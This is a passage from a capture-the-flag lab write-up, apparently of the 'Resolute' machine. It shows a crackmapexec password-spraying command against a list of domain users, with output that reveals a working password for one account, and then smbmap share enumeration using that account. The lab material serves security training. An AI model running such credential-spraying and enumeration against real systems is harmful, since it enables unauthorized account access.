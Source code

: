 Failed. He must have changed his password. But we have a whole list of users. Maybe if we password spray, it'll work for one of them.

```sh
❯ cme smb resolute -u users.txt -p 'Welcome123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

It worked for Melanie! Let's see what other information we can get with her account.

```sh
# check share access
❯ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
[+] IP: 10.10.10.169:445	Name: resolute
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share

# check for GPP Passwords in shares:
```
